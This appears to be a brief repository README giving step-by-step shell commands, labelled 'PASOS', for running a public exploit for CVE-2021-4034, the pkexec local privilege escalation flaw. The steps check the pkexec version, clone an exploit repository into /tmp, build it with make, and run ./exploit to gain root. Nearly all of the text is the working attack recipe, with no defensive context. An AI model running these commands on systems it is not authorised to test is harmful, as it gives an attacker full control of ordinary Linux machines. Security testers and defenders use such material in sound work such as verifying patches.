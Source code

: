 # CVE-2021-4034
pkexec Local Privilege Escalation exploit
--- PASOS 
pkexec --version

cd /tmp 
git clone https://github.com/ryaagard/CVE-2021-4034.git 

cd CVE-2021-4034 

make 

ls 

./exploit
